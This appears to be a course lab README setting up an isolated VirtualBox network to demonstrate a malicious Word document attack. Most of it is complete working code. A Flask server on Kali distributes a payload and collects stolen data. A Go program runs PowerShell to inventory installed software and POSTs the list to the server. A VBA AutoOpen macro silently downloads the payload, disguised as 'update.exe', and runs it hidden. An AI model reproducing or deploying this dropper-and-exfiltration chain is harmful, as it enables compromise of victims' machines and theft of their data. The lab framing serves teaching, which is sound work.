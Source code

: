 # Labor 5
## Environment Setup
### VirtualBox Network Configuration
1. Create internal network for VMs
    - Settings -> Network
    - Select "Internal Network"
    - Name: "isolatedlab"
    - Repeat for both VMs

2. Configure Static IPs
    - Kali: 192.168.1.10
    - Windows: 192.168.1.20

### Windows Setup
1. Mount OFFICE_2010.iso in VirtualBox settings
2. Install Office 2010 from mounted ISO

## Server Setup (Kali)

### Flask Server
Create `server.py`:
```python
from flask import Flask, request, send_file

app = Flask(__name__)

@app.route('/payload.exe', methods=['GET'])
def serve_payload():
    return send_file('payload.exe', as_attachment=True)

@app.route('/data', methods=['POST'])
def receive_data():
    data = request.get_data()
    print("Received data:")
    print(data.decode('utf-8'))
    
    with open('received_programs.txt', 'wb') as f:
        f.write(data)
    return "OK"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080, debug=True)
```

Start server:
```bash
python3 server.py
```

## Payload Creation

Create `main.go`:
```go
package main

import (
    "bytes"
    "log"
    "net/http"
    "os/exec"
)

func getPrograms() string {
    cmd := exec.Command("powershell", "-command", "Get-Package | Select-Object Name, Version, ProviderName")
    output, err := cmd.Output()
    if err != nil {
        log.Printf("Error executing PowerShell: %v", err)
        return "Error getting programs"
    }
    return string(output)
}

func sendData(data string) error {
    resp, err := http.Post("http://192.168.1.10:8080/data", "text/plain", bytes.NewBuffer([]byte(data)))
    if err != nil {
        log.Printf("HTTP error: %v", err)
        return err
    }
    defer resp.Body.Close()
    log.Printf("Server response status: %d", resp.StatusCode)
    return nil
}

func main() {
    programs := getPrograms()
    err := sendData(programs)
    if err != nil {
        log.Printf("Failed to send data: %v", err)
    }
}
```

Compile on Kali:
```bash
mkdir winpayload
cd winpayload
go mod init winpayload
# Copy main.go into directory
GOOS=windows GOARCH=amd64 go build -o ../payload.exe
```

### Word Macro
Create new Word document and add this macro (Alt+F11):
```vb
Sub AutoOpen()
    DownloadAndExecute
End Sub

Sub Document_Open()
    DownloadAndExecute
End Sub

Sub DownloadAndExecute()
    Dim xhr As Object
    Dim filePath As String
    
    ' Create temp file path
    filePath = Environ("TEMP") & "\update.exe"
    
    ' Download file
    Set xhr = CreateObject("MSXML2.XMLHTTP")
    xhr.Open "GET", "http://192.168.1.10:8080/payload.exe", False
    xhr.send
    
    If xhr.Status = 200 Then
        ' Save binary data
        Dim stream As Object
        Set stream = CreateObject("ADODB.Stream")
        stream.Open
        stream.Type = 1  'Binary'
        stream.Write xhr.responseBody
        stream.SaveToFile filePath, 2  'Overwrite'
        stream.Close
        
        ' Execute
        CreateObject("WScript.Shell").Run filePath, 0, True
    End If
End Sub
```
Save as .docm with macros enabled.

## Testing
1. Start Flask server on Kali
2. Test payload download: `http://192.168.1.10:8080/payload.exe`
3. Open Word document on Windows
4. Check received data in `received_programs.txt` on Kali

## Notes
- All systems isolated in internal network
- No internet access for security
- Flask server handles both payload distribution and data collection
- Payload collects installed programs list as demo functionality